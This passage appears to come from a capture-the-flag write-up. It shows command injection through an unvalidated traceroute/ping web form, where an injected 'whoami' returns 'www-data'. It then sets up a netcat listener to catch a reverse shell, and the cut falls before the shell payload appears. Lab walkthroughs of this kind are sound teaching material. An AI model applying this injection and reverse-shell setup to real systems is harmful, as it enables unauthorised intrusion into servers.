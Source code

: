 ![](/assets/images/cronos4.png)

This page allows us to specify an IP address and it will perform `traceroute` on it and return the output. You could also choose to `ping` as well. 

# Exploitation (1)

However, our input is not being validated so lets try injecting some commands.

![](/assets/images/cronos5.png)

We are able to inject a `whoami` command and it returns `www-data`! Now lets use it to establish a reverse shell connection. So first we will setup our listener.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```
